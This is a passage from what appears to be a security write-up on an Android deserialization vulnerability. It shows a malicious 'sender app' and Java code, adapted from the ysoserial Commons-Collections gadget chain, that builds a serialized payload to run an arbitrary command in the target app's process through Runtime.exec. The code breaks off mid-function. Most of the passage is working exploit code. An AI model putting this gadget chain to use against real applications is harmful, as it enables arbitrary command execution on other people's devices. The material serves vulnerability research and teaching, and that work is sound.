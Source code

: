 ![Android Deserialization Vulnerability](/assets/media/deserialization-android-vuln.png)

#### Sender App (Malicious)

Borrowing the gadget from `frohoff/YsoSerial` and Intent from `modzero/modjoda`, we can craft the payload. The `getObject` is invoked from `Activity` or `Service` with command as payload. Example: `getObject("id")` will execute `id` command on the target process.

```java
public Serializable getObject(final String command) throws Exception {

        final String[] execArgs = new String[] { command };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
```